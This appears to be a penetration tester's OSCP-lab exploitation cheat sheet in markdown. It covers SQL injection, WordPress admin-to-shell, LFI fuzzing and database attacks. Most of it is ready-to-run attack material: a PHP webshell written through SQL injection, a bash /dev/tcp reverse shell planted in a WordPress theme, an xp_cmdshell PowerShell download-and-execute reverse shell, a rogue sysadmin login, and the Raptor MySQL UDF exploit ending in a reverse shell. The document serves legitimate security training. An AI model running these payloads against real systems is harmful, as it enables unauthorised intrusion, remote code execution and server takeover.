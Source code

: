# Exploitation
This, by all means is not a full guide, but will be added to over time. There are many things here that I commonly found throughout OSCP labs.

## Resources:
* [Total OSCP Guide](https://web.archive.org/web/20221206152629/https://sushant747.gitbooks.io/total-oscp-guide/content/)
* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
## Table of Contents
1. [Web Exploits](#web-exploits)
2. [SQL Injection (SQLi)](#sql-injection-sqli)
4. [Wordpress Admin to Shell](#wordpress-admin-to-shell)
5. [Local File Inclusion (LFI) / Remote Code Inclusion (RCI) / Log Poisoning](#lfi-rci-log-poisoning)
6. [Command Injection](#command-injection)
7. [SQL Database Vulnerabilities](#sql-database-vulnerabilities)
8. [Server Message Block (SMB) Exploits](#smb-exploits)

## Web Exploits

Web applications are a common target for attackers. Understanding the various vulnerabilities and how to exploit them is crucial for any penetration tester.

Common Attacks:
* Default Credentials
* Password Spraying
* sqli login bypass
* SQLI
* LFI/RFI
* Log Poisioning
* Command Injection
* Windows IIS (ASP/ASPX)

## SQL Injection (SQLI)

[Cheat Sheet](https://github.com/brianlam38/Sec-Cheatsheets/blob/master/Web/Web_Cheatsheet.md#sql-injection)

### Authentication Bypass
[Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

### sqlmap
If working with burpsuite, we can save the request as a file. We can then run sqlmap using the request:
```
sqlmap -r burpreq -p id
```

Other Options:
`--dump`	dump the database  
`-D` DB	Database to enum  
`-T` TBL	Table to enum  
`-C` COL	Column to enum  
`-p` param	parameter to test  
`-a`	retrieve everything  
`--passwords`	enumerate passwords  
`--tables`	enumerate tables  
`--columns`	enumerate columns  


### MySQL Injection to code execution
STEP 1:  
Find the web root. Common locations:
```
C:\xampp\htdocs
/var/www/html 
```

STEP 2:  
Write PHP webshell into web root 
```
'UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\shell.php"'
'UNION SELECT '<?php system($_GET['cmd']); ?>' INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php'-- -'
```

STEP 3:  
Code exec 
```
$ curl -v http://[target]/shell.php?cmd=whoami
```

## Wordpress Admin to Shell

Wordpress is one of the most popular CMS platforms. This section covers how to escalate from a Wordpress admin account to obtaining a shell on the server.

### Using Plugins

```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
zip plugin-shell.zip plugin-shell.php
```
Upload the zip as a new plugin

### Using Themes

* Download legitimate [twentyfifteen](https://downloads.wordpress.org/theme/twentyfifteen.3.3.zip) theme.
* Unzip it and add reverse shell code to 404.php
```
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.175/1234 0>&1'");
```
* Re-zip the theme

```
zip -r vuln.zip twentyfiftee
```
* Upload theme to /wp/wp-admin/theme-install.php
* Start a netcat listener
* Visit /wp/wp-content/themes/twentyfifteen/404.php

## Local File Inclusion (LFI) / Remote Code Inclusion (RCI) / Log Poisoning

LFI and RCI are vulnerabilities that allow an attacker to include files on a server through the web browser. Log poisoning is a technique used in conjunction with LFI to execute arbitrary commands on the server.

* [Cheat Sheet](https://web.archive.org/web/20220703093125/https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
* [Windows LFI Files](https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/)
* Using wfuzz to fuzz common lfi files:
```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## Command Injection

Command injection is an attack method in which a hacker alters dynamically generated content on a web page by entering shell commands into an input mechanism, such as a form field that lacks effective validation constraints.

* [Cheat Sheet](https://gabb4r.gitbook.io/oscp-notes/cheatsheet/command-injection-cheatsheet)

## SQL Database Vulnerabilities

Databases are a prime target for attackers due to the sensitive information they hold. This section covers various vulnerabilities specific to SQL databases and how to exploit them.

### MSSQL (port 1433) Reverse Shell

**Default sysadmin account (sa):**

If we have access to a remote mssql database with privileged user credentials, we can exploit this to execute commands on the server and gain a reverse shell.

```bash
impacket-mssqlclient user:pass@10.10.10.10

```

Within SQL

```sql

EXEC xp_cmdshell 'whoami'

```

If **`xp_cmdshell`** is disabled, we need to enable it (can only be done by a user with sysadmin permissions):
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC xp_cmdshell 'dir c:\'
```
Alternatively, **`xp_cmdshell`** can be executed from **crackmapexec**:
```bash
crackmapexec mssql 10.11.1.111 --local-auth -u 'sa' -p 'sqls3rv3r' -x 'echo IEX (New-Object Net.WebClient).DownloadString("http://192.168.119.145/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.145 -Port 443 | powershell -noprofile'
```
You can also add a new database user and assign them the role of sysadmin so that they can enable **`xp_cmdshell`**:

```sql
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'
```

### MySQL (port 3306) Reverse Shell

Local Access:
```bash
mysql -u root # Connect to root without password
mysql -u root -p # prompts for password
```
Remote Access:
```bash
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```
Misconfigured database could allow ordinary user to query data or create a root-level user:
```sql
SELECT * FROM mysql.user; # Get users, permissions & creds
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

```
Get a shell (with your permissions, useful for sudo/suid privesc):
```
\! sh
```

#### Raptor UDF exploit:

UDF Exploit can be found at [Raptor UDF Exploit GitHub](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c).

Compile:
```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc 
```
In the Victim machine:
```bash
mysql -u root
```
```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('bash -c "bash -i >& /dev/tcp/192.168.119.219/443 0>&1"');
```

